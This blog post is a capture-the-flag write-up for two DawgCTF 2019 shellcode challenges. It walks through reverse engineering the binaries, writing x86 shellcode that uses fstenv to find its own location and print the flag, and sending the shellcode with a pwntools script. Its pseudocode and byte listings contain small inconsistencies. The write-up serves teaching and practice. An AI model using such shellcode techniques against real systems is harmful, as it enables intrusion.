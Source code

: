 ```yaml
---
layout: post
title: "DawgCTF 2019 - Where Am I?"
description: "Writeup for the Where am I? and Where the hell am I? challenges at DawgCTF 2019"
date: 2019-03-27
tags: [ctf, writeup, DawgCTF2019, pwn, shellcode]
comments: true
share: true
---
```


This writeup is actually intended for two different challenges. As happens pretty frequently at CTFs, "Where am I?" was a challenge designed to introduce people to the problem, and "Where the hell am I?" was a higher-level, more complex version of the challenge.

In these challenges, you're handed free shellcode execution and have to figure out where in memory the shellcode is running, so that they can print the flag from a variable near the shellcode's buffer in-memory.

### Challenge Description

![](/assets/images/whereami.jpeg) |  ![](/assets/images/wherethehell.jpeg)

We know a few things about the challenge just from its description. It's a pwn challenge, so presumably we just have to pass some carefully crafted something-or-other to the production version to break it. We can also see from the hints given by the title and description that we're going to have to find something, presumably the flag's address. Finally, both challenges were nice enough to provide a binary, named `chall1` and `chall2`, respectively.

### Starting, somewhere.

Let's try running the first binary.

```console
[garnt@inari whereami]$ ./chall1 
can't find flag
[garnt@inari whereami]$
```

Fuck.

I wonder why it does that?

![](/assets/images/flagopen.jpeg)

The first thing that the binary does, dead at the start of main, is try to open the file "file.txt". If it doesn't find it, it spits out that string we encountered earlier and exits. It doesn't seem to care about the contents, though.

Let's try touching that file.

```console
[garnt@inari whereami]$ touch flag.txt
[garnt@inari whereami]$ ./chall1 

Segmentation fault (core dumped)
[garnt@inari whereami]$ 
```

Well, we tried to just pass it nothing for input and it segfaulted on us. But this time it didn't complain about flag.txt not existing, so that's a good sign.

Let's try and figure out what happens to that input.

![](/assets/images/stdin-read.png)

If we look at address `0x080486d1`, we'll see a call to read. If we look at everything that's been pushed to stack, we learn that this is the call that reads from stdin, as stdin's file descriptor is `0x0`.

```c
// some variables
void *buf;
FILE *file;
size_t mmap_len;

// mmap to make a buffer, then read flag.txt into it
file = open("flag.txt", O_RDONLY);
mmap(buf, 0x1000, MAP_ANON, -1);
read(file, buf, 0x32);

// read from stdin into the buffer
read(STDIN, buf+0x32, 0x64);

// prevent syscalls so that you don't just cheat the intended solution
install_syscall_filter(...);

// start executing at the user's buffer
// NOTE: this line of code is both a) correct and b) awful
((void (*)(void)) (buf+0x32))();
```

1. `open` a file descriptor to flag.txt
2. `mmap` itself a buffer of size `0x1000`
3. `read` `0x32`'s-worth of flag.txt into the beginning of the buffer
4. `read` `0x64`'s-worth of shellcode into `buf+0x32`
5. execute the user's shellcode

### We Sells C-Shell(code.)

So, all we need to do is, `printf("%s", buf)`. But, bringing back around the name of the challenge in a glorious blaze of segue, I don't know were the hell I am. Fortunately, there's a trick for this: the `fstenv` instruction.

![](/assets/images/fstenv-book.png)

I'm sorry, does that say *"instruction pointer"*?

```asm
fldz
fstenv [esp-0xc]
pop ecx
sub ecx, 0x32
```

Yep, the above 4 lines of assembly puts the address of the flag into `ecx`. Now all we have to do is syscall `write`.

```asm
mov edx, 0x64
mov ecx, <addr>
mov ebx, 0x01
mov eax, 0x04
int 0x80
```

Put it all together, and what do you got?

```asm
fldz
fstenv [esp-0xc]
pop ecx
sub ecx, 0x32
mov edx, 0x64
mov ebx, 0x01
mov eax, 0x04
int 0x80
```

Now that we have our shellcode written as assembly, we just need some way to send it to the ctf server. I like [pwntools](https://github.com/Gallopsled/pwntools), so that's what I'm using for this.

First, use binja to assemble it and encode it as ascii escape codes:

![](/assets/images/binja-assemble.png)

And, after copying it:

`\xd9\xee\x9b\xd9t$\xf4Y\x83\xe92\xbad\x00\x00\x001\xdbC\xb8\x04\x00\x00\x00\xcd\x80`

Throw it into our pwntools script:

```python
#!/usr/bin/env /bin/python2
from pwn import *

payload = "\xd9\xee\x9b\xd9t$\xf4Y\x83\xe92\xbad\x00\x00\x00\xbb\x01\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x80"

r = remote('challenges.notanexploit.club', 3650)
r.sendline(payload)
r.interactive()
```

*(The servers are down now, so I can't submit it to them, but)*

```console
[garnt@inari whereami]$ echo -e "\xd9\xee\x9b\xd9t$\xf4Y\x83\xe92\xbad\x00\x00\x001\xdbC\xb8\x04\x00\x00\x00\xcd\x80" | ./chall1 
DawgCTF{Th15_15_tH3_fL4g}
���t$�Y��2�d1�C�̀
Segmentation fault (core dumped)
[garnt@inari whereami]$
```

Ladies and gentlemen, we got 'em.

### Write Once, Run Anywhere

Just glancing over the disassembly graph, `wherethehellami` seems pretty similar to `whereami`.

![](/assets/images/chall2-graph.png)

Or, in pseudocode:

```c
// some variables
void *buf;
FILE *file;
size_t mmap_len;

// mmap to make a buffer, then read flag.txt into it
file = open("flag.txt", O_RDONLY);
mmap(buf, 0x1000, MAP_ANON, -1);
read(file, buf, 0x32);

// read from stdin into the buffer
read(STDIN, buf+0x32, 0x32);

// prevent syscalls so that you don't just cheat the intended solution
install_syscall_filter(...);

// start executing at the user's buffer
// NOTE: this line of code is both a) correct and b) awful
((void (*)(void)) (buf+0x32))();
```

Upon further inspection, this looks **extremely** similar. In fact, the only obvious difference I can find is that you only get `0x32` bytes for shellcode instead of `0x64` like you did last time. Fortunately, our shellcode is way shorter than that, so let's just try running it back:

```console
[garnt@inari wherethehellami]$ echo -e "\xd9\xee\x9b\xd9t$\xf4Y\x83\xe92\xbad\x00\x00\x001\xdbC\xb8\x04\x00\x00\x00\xcd\x80" | ./chall2
DawgCTF{Th15_15_4n0Th3R_fL4g}
���t$�Y��2�d1�C�̀
Segmentation fault (core dumped)
[garnt@inari wherethehellami]$ 
```

![](https://i.giphy.com/media/NvgkEvycaWhPi/giphy.webp)

Well, you saw it here first, folks: "Write Once, Run Anywhere" is x86 assembly now, not Java.

### Epilogue

Thanks for sticking around until the end. The source for the solve scripts as well as the binaries themselves can be found in these GitHub repos:
- [whereami](https://github.com/GarntS/whereami)
- [wherethehellami](https://github.com/GarntS/wherethehellami)
